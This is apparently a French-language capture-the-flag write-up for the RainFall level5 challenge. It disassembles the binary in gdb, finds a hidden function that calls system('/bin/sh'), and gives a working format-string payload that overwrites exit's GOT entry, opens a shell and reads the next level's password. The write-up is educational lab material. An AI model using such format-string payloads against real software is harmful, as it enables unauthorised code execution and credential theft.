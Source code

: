 ## Analyse

```(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
(gdb) info functions
All defined functions:
(gdb) disas main
Dump of assembler code for function main:
   0x08048504 <+0>:	push   ebp
   0x08048505 <+1>:	mov    ebp,esp
   0x08048507 <+3>:	and    esp,0xfffffff0
   0x0804850a <+6>:	call   0x80484c2 <n>
   0x0804850f <+11>:	leave  
   0x08048510 <+12>:	ret    
End of assembler dump.
(gdb) info functions
All defined functions:

Non-debugging symbols:
0x08048334  _init
0x08048380  printf
0x08048380  printf@plt
0x08048390  _exit
0x08048390  _exit@plt
0x080483a0  fgets
0x080483a0  fgets@plt
0x080483b0  system
0x080483b0  system@plt
0x080483c0  __gmon_start__
0x080483c0  __gmon_start__@plt
0x080483d0  exit
0x080483d0  exit@plt
0x080483e0  __libc_start_main
0x080483e0  __libc_start_main@plt
0x080483f0  _start
0x08048420  __do_global_dtors_aux
0x08048480  frame_dummy
0x080484a4  o
0x080484c2  n
0x08048504  main
0x08048520  __libc_csu_init
0x08048590  __libc_csu_fini
0x08048592  __i686.get_pc_thunk.bx
0x080485a0  __do_global_ctors_aux
0x080485cc  _fini
(gdb) disas n
Dump of assembler code for function n:
   0x080484c2 <+0>:	push   ebp
   0x080484c3 <+1>:	mov    ebp,esp
   0x080484c5 <+3>:	sub    esp,0x218
   0x080484cb <+9>:	mov    eax,ds:0x8049848
   0x080484d0 <+14>:	mov    DWORD PTR [esp+0x8],eax
   0x080484d4 <+18>:	mov    DWORD PTR [esp+0x4],0x200
   0x080484dc <+26>:	lea    eax,[ebp-0x208]
   0x080484e2 <+32>:	mov    DWORD PTR [esp],eax
   0x080484e5 <+35>:	call   0x80483a0 <fgets@plt>
   0x080484ea <+40>:	lea    eax,[ebp-0x208]
   0x080484f0 <+46>:	mov    DWORD PTR [esp],eax
   0x080484f3 <+49>:	call   0x8048380 <printf@plt>
   0x080484f8 <+54>:	mov    DWORD PTR [esp],0x1
   0x080484ff <+61>:	call   0x80483d0 <exit@plt>
End of assembler dump.
(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:	push   ebp
   0x080484a5 <+1>:	mov    ebp,esp
   0x080484a7 <+3>:	sub    esp,0x18
   0x080484aa <+6>:	mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:	call   0x80483b0 <system@plt>
   0x080484b6 <+18>:	mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:	call   0x8048390 <_exit@plt>
End of assembler dump.
(gdb) x/s 0x80485f0
0x80485f0:	 "/bin/sh"

```

## Exploit

L'attaque ici est une autre attaque par chaîne de format. Mais cette fois, nous devons rediriger la fonction exit vers une autre fonction cachée o. Pour ce faire, nous pouvons utiliser la GOT (Global Offset Table). La Global Offset Table est une table d'adresses de fonctions qui sont liées de manière dynamique et est utilisée pour résoudre l'adresse d'une fonction à l'exécution. Tout ce que nous avons à faire est de trouver le décalage, trouver l'adresse de `exit`, `o`, et injecter notre valeur dans la fonction `printf`.

```(gdb) disas o
Dump of assembler code for function o:
   0x080484a4 <+0>:    push   ebp
   0x080484a5 <+1>:    mov    ebp,esp
   0x080484a7 <+3>:    sub    esp,0x18
   0x080484aa <+6>:    mov    DWORD PTR [esp],0x80485f0
   0x080484b1 <+13>:   call   0x80483b0 <system@plt>
   0x080484b6 <+18>:   mov    DWORD PTR [esp],0x1
   0x080484bd <+25>:   call   0x8048390 <_exit@plt>
End of assembler dump.
```

```(gdb) disas 0x80483d0
Dump of assembler code for function exit@plt:
   0x080483d0 <+0>:    jmp    DWORD PTR ds:0x8049838 <===
   0x080483d6 <+6>:    push   0x28
   0x080483db <+11>:   jmp    0x8048370
End of assembler dump.

```

```level5@RainFall:~$ ./level5 
AAAA %p %p %p %p %p %p %p %p %p %p
AAAA 0x200 0xb7fd1ac0 0xb7ff37d0 0x41414141 0x20702520 0x25207025 0x70252070 0x20702520 0x25207025 0x70252070
```

- Adresse de `exit`: `0x8049838`
- Adresse de `o`: `0x080484a4`
- Offset: 4

On convertit l'adresse de `o` en decimal puis on osustrait l'offset pour savoir combien d'octets on doit ecrire pour atteindre exit `exit` GOT entry.

```
(python -c 'print "\x38\x98\x04\x08" + "%134513824d" + "%4$n"'; cat) | ./level5
[...snip...]
whoami
level6
cat /home/user/level6/.pass
d3b7bf1025225bd715fa8ccb54ef06ca70b9125ac855aeab4878217177f41a31
```